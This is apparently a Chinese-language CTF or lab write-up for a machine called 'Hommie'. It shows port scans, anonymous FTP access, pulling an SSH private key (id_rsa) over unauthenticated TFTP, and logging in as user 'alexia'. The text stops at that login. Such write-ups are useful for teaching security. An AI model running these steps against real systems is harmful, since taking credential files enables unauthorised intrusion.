




# Hommie

`fscan`扫描结果为

```
192.168.1.95:80 open
192.168.1.95:22 open
192.168.1.95:21 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://192.168.1.95       code:200 len:99     title:None
[+] ftp 192.168.1.95:21:anonymous
   [->]index.html
```

发现`ftp`匿名登录，直接访问发现`.web`的内容和网页内容相同




但是尝试上传`shell`失败，只能从其他方面入手，扫描`udp`端口看看

```bash
sudo nmap -sU  192.168.1.95 -p 1-100
```



发现开放了`tftp`，`tytp`没有身份验证机制，且不加密传输，直接登录

```
tftp 192.168.1.95
```

然后根据网页提示猜测有`id_rsa`

```
> get id_rsa
```



登录

```bash
chmod 600 id_rsa
ssh -i id_rsa alexia@192.168.1.95
```

